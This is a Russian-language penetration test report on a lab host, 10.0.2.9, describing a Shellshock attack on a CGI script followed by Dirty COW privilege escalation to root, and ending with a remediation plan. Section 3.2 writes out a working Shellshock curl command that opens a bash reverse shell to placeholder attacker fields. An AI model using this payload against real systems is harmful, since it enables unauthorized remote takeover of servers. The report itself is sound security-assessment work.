



# 📑 Отчет по результатам анализа защищенности: Lab10
**Статус:** 🔴 КРИТИЧЕСКИЙ УРОВЕНЬ РИСКА

---

## 1. Резюме для руководства
В ходе тестирования была выявлена критическая цепочка уязвимостей, позволяющая удаленному злоумышленнику получить полный контроль над сервером (**Root**) без предварительной авторизации.

**Основные находки:**
*   Уязвимость **Shellshock** в CGI-скриптах (RCE).
*   Устаревшее ядро, подверженное эксплойту **Dirty COW** (LPE).

---

## 2. Сводка уязвимостей

| ID | Уязвимость | Вектор | Сложность | Критичность |
| :--- | :--- | :--- | :--- | :--- |
| **VULN-01** | Shellshock (CVE-2014-6271) | Удаленный | Низкая | **CRITICAL** |
| **VULN-02** | Dirty COW (CVE-2016-5195) | Локальный | Средняя | **HIGH** |

---

## 3. Технический анализ и ход атаки

### 3.1. Этап разведки
При сканировании узла `10.0.2.9` обнаружен активный веб-сервер на порту **80/TCP**. 
Анализ директорий выявил наличие скриптов в папке `/cgi-bin/`.

### 3.2. Точка входа
Обнаружена возможность выполнения произвольного кода через манипуляцию заголовком `User-Agent`. 
**Вектор атаки:**
`curl -H "User-Agent: () { :; }; echo; /bin/bash -i >& /dev/tcp/[IP атакующего]/[port атакующего] 0>&1" http://10.0.2.9/cgi-bin/test.sh`

*Результат: Получен удаленный доступ (Reverse Shell) с правами пользователя www-data.*

### 3.3. Повышение привилегий
Система работает на устаревшей версии ядра Linux, что позволило использовать эксплойт **Dirty COW**. Был скомпилирован статический бинарный файл, который создал в системе нового пользователя `firefart` с правами **root**.

---

## 🛡️ 4. План мероприятий по устранению

### 4.1. Первоочередные меры
*Данные меры должны быть реализованы в течение 24 часов.*

1. **Патчинг Bash:** Уязвимость **Shellshock** устраняется обновлением пакета до актуальной версии. 
   * Команда для Ubuntu/Debian: `sudo apt-get update && sudo apt-get install --only-upgrade bash`
2. **Обновление ядра (Kernel Update):** Для устранения **Dirty COW** необходимо обновить ядро и перезагрузить сервер. 
   * Команда: `sudo apt-get upgrade linux-image-generic`
3. **Блокировка подозрительных запросов:** Настройте WAF (Web Application Firewall) или `mod_security` для фильтрации строк `() { :; };` в HTTP-заголовках.

### 4.2. Системное укрепление
*Меры по долгосрочному повышению уровня защищенности.*

*   **Минимизация поверхности атаки:** 
    * Проверьте актуальность использования CGI-скриптов. Если функционал не используется, отключите модуль `mod_cgi` в конфигурации Apache.
    * Удалите интерпретаторы (gcc, python, perl) с рабочих серверов, где они не требуются для работы приложений, чтобы затруднить атаки после получения доступа.
*   **Изоляция процессов:** 
    * Настройте запуск веб-сервисов в изолированных контейнерах (Docker) или `chroot` окружении. Это предотвратит выход злоумышленника в основную систему даже при успешной эксплуатации RCE.
*   **Мониторинг и аудит:** 
    * Настройте систему обнаружения вторжений (IDS) и систему предотвращения вторжений (IPS), например **OSSEC** и **Fail2Ban**, для отслеживания аномальных POST-запросов и попыток поиска CGI-директорий.
    * Включите расширенный аудит системных вызовов (auditd) для выявления попыток эксплуатации ядра.

### 4.3. Оценка рисков при отсутствии исправлений

| Вероятность повторной атаки | Высокая |
| :--- | :--- |
| **Последствия** | Полная компрометация конфиденциальных данных, внедрение вредоносного ПО, использование сервера для атак на другие узлы сети. |

---